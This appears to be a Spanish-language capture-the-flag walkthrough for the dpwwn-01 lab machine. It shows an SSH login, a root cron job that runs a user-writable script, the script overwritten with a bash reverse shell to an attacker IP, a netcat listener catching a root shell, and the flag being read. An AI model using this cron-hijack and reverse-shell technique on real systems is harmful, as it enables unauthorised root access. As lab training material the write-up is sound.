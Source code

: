 # Attack Port [22](https://github.com/CiprianoBryan/CTF/blob/master/Puertos%20mas%20comunes.md):

### 1. ssh:
```
root@kali:~# ssh mistic@192.168.1.10
Last login: Fri Nov 29 02:33:26 2019


[mistic@dpwwn-01 ~]$
```

### 2. explore:
Encontramos un archivo.
```
[mistic@dpwwn-01 ~]$ cat logrot.sh 
#!/bin/bash
#
#LOGFILE="/var/tmp" SEMAPHORE="/var/tmp.semaphore"


while : ; do
  read line
  while [[ -f $SEMAPHORE ]]; do
    sleep 1s
  done
  printf "%s\n" "$line" >> $LOGFILE
done
```

### 3. crontab:
Investigando, vemos que el crontab (task scheduler), ejecuta el archivo que
habiamos encontrado (logrot.sh) con usuario root durante
cada dia de la semana, mes, día del mes, hora en el minuto 3.
```
[mistic@dpwwn-01 ~]$ cat /etc/crontab 
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed

*/3 *  * * *  root  /home/mistic/logrot.sh
```

## Escala de privilegios:
### 4. Reverse Shell:
Podemos ejecutar un reverse shell desde el usuario mistic, pero esto nos daría control
al usuario mistic el cual ya lo tenemos, pero podríamos tener el control de usuario root
por medio del archivo logrot ya que este es ejecutado por root desde el crontab.
```
[mistic@dpwwn-01 ~]$ echo "bash -i >& /dev/tcp/192.168.1.3/1234 0>&1" > logrot.sh
```

### 5. netcat:
Escuchamos desde nuestra maquina atacante por el puerto 1234, y recibimos el control 
del usuario root gracias al power shell ejecutado con usuario root.
```
root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...
connect to [192.168.1.3] from (UNKNOWN) [192.168.1.10] 35822
bash: no job control in this shell
[root@dpwwn-01 ~]#
```

### 6. explore:
```
[root@dpwwn-01 ~]# ls -la
ls -la
total 32
dr-xr-x---.  2 root root  182 Aug  1 15:16 .
dr-xr-xr-x. 17 root root  211 Aug  1 14:11 ..
-rw-------.  1 root root 1394 Aug  1 14:12 anaconda-ks.cfg
-rw-------.  1 root root   49 Nov 30 03:15 .bash_history
-rw-r--r--.  1 root root   18 Dec 28  2013 .bash_logout
-rw-r--r--.  1 root root  176 Dec 28  2013 .bash_profile
-rw-r--r--.  1 root root  176 Dec 28  2013 .bashrc
-rw-r--r--.  1 root root  100 Dec 28  2013 .cshrc
-r-x------.  1 root root  171 Aug  1 15:16 dpwwn-01-FLAG.txt
-rw-------.  1 root root    0 Aug  1 14:32 .mysql_history
-rw-r--r--.  1 root root  129 Dec 28  2013 .tcshrc
```

### 7. CTF:
```
[root@dpwwn-01 ~]# cat dpwwn-01-FLAG.txt
cat dpwwn-01-FLAG.txt

Congratulation! I knew you can pwn it as this very easy challenge. 

Thank you. 


64445777
6e643634 
37303737 
37373665 
36347077 
776e6450 
4077246e
33373336 
36359090
```